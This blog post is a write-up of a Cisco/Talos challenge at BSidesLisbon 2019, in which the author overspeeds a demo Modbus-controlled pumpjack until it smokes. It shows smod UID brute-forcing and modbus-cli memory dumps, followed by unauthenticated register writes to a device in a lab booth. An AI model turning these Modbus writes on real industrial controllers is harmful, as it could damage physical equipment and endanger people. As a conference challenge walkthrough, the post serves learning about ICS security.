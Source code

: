 ```yaml
---
layout: post
title:  "Make it smoke! Cisco Challenge Write-up"
categories: [infosec, iot]
tags: [bsideslisbon, infosec, iot, cisco]
description: "Write-up of a sidequest challenge by Cisco/Talos during BSidesLisbon 2019"
---
```


BSides is the biggest security-wise event in Portugal, with two days of talks, workshops, a CTF competition, and lots more. During BSides, some *sidequests* ranging from raffles to challenges appear that can give you prizes*!* This is a write-up of one of those challenges by Cisco/Talos.

<!--more-->

## The Challenge

![Make it Smoke!](/images/bsideslx19/header.png)

In the booth of Cisco/Talos, we were presented with the following scenario (as it can be seen in the picture):
1. An access point (AP) named `security` with the password `cisco12345`.
2. A 3d-printed pumpjack[^1].
3. Some controlling system based on Arduino.
4. The objective was to make it smoke somehow.

## Preliminaries

First thing first, connect to the network and do a quick network and port scan. Since it was an AP for everyone that wanted to do the challenge, several IP's showed up, but only one interesting, the `10.10.10.1` with the port `502` open.

As per Siemens documentation: *By default, the protocol uses Port `502` as local port in the Modbus server*[^2]. Thus we are probably faced with something that speaks *Modbus* protocol.

With a little of search, you can find a lot of *Modbus* protocol clients in the wild, as well as some *offensive* toolkits. 

## Making it smoke!

Using the [smod-1 by theralfbrown](https://github.com/theralfbrown/smod-1) toolkit, I was able to connect to the Modbus system and interact with it. 

{% highlight bash %}
$ python smod.py
SMOD > use modbus/scanner/uid
SMOD modbus(uid) > set RHOST 10.10.10.1
SMOD modbus(uid) > exploit
[+] Module Brute Force UID Start
[+] Start Brute Force UID on : 10.10.10.1
[+] UID on 10.10.10.1 is : 10
{% endhighlight %}

Now I did know the UID of the Modbus, however even after exploring the DoS capabilities and *all* the reader modules I was not getting anywhere close to make it smoke.

So, after exploring a little more one Github, I found out this really nice [modbus-cli by tallakt](https://github.com/tallakt/modbus-cli).

Even if it was not implemented with an *offensive* mindset like the previous tool, it allowed us to read, write and **dump** the memory of a *Modbus* device. Using it, we were able to read random parts of the memory, *e.g.*, reading five words from the device starting from address `%MW100` (which corresponds to address `400101`).

{% highlight bash %}
$ modbus read 10.10.10.1 %MW100 5
%MW100 0
%MW101 0
%MW102 0
%MW103 0
%MW104 0
{% endhighlight %}

After trying to read random places of the memory using this tool and finding nothing but zero values, and decided to just *dump* everything into a file (the operation took around 20 seconds).

{% highlight bash %}
$ modbus read --output mybackup.yml 10.10.10.1 400001 1000
{% endhighlight %}

After dumping all the memory into a file, looking into the file:

{% highlight bash %}
$ cat mybackup.yml 
---
:host: 10.10.10.1
:port: 502
:slave: 1
:offset: '400001'
:data:
- 0
- 0
- 0
- 0
- 0
- 0
- 5000
- 0
-- show more --
{% endhighlight %}

The file keeps going on, with a lot of zero's and a lot of random values. I guess that those random values were the result of all the participants trying to *pwn* it. 

However, that seventh value caught my attention because it was a single round number. Maybe that was the speed of the rotation mechanism of the pumpjack, *maybe*.

Checking if the dump was correct, with the same tool we could read that specific part of the memory:

{% highlight bash %}
$ modbus read 10.10.10.1 400001 7
400001 0
400002 0
400003 0
400004 0
400005 0
400006 0
400007 8000
{% endhighlight %}

And yep, the value was still there, but a bit higher (and we could observe the pumpjack rotating more quickly).

So the next step was to try to write some higher value there:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 10000
{% endhighlight %}

And then, *higher*:

{% highlight bash %}
$ modbus write 10.10.10.1 400007 18000
{% endhighlight %}

And this was it, the increase in the rotation speed of the pumpjack triggered the smoke device that was connected to the Arduino! 

![Running like hell!](/images/bsideslx19/final.png)

This was my first time playing around with *Modbus*, and there is still a lot that I didn't touch nor understood. Nonetheless, it was a nice kickstart. 

Props to Cisco and Talos for coming up with the challenge and for the coffee mug and the [*snort*](https://www.snort.org/). And *pwning* IoT is the best kind of *pwn*.


[^1]: [Pumpjack on Wikipedia](https://en.wikipedia.org/wiki/Pumpjack)
[^2]: [Which ports are released for Modbus/TCP communication](https://support.industry.siemens.com/cs/document/34010717/which-ports-are-released-for-modbus-tcp-communication-and-how-many-modbus-clients-can-communicate-with-a-simatic-s7-pn-cpu-as-modbus-server-?dti=0&lc=en-WW)
